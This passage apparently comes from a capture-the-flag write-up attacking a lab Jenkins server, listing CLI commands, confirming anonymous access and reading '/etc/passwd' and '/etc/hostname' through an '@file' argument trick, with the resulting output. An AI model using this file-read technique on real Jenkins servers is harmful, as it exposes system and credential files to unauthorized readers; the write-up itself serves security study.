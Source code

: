 ```
    Stop all running builds for job(s)
  update-credentials-by-xml
    Update Credentials by XML
  update-credentials-domain-by-xml
    Update Credentials Domain by XML
  update-job
    Updates the job definition XML from stdin. The opposite of the get-job command.
  update-node
    Updates the node definition XML from stdin. The opposite of the get-node command.
  update-view
    Updates the view definition XML from stdin. The opposite of the get-view command.
  version
    Outputs the current version.
  wait-node-offline
    Wait for a node to become offline.
  wait-node-online
    Wait for a node to become online.
  who-am-i
    Reports your credential and permissions.

ERROR: No such command 0xdf. Available commands are above.

```

Those command run as well:

```

oxdf@hacky$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' who-am-i
Authenticated as: anonymous
Authorities:
  anonymous

```

From the advisory, I can try putting in a file reference:

![image-20240209171545905](/img/image-20240209171545905.png)

It’s trying to load `/etc/passwd` as arguments for the help command. The first line is the command (`root`), and the next is an unexpected argument. That’s partial file read for sure. For one line files, this is enough (adding an extra arg, in this case “a”, makes the output much shorter):

```

oxdf@hacky$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help '@/etc/hostname' a

ERROR: Too many arguments: a
java -jar jenkins-cli.jar help [COMMAND]
Lists all the available commands or a detailed description of single command.
 COMMAND : Name of the command (default: 0f52c222a4cc)

```
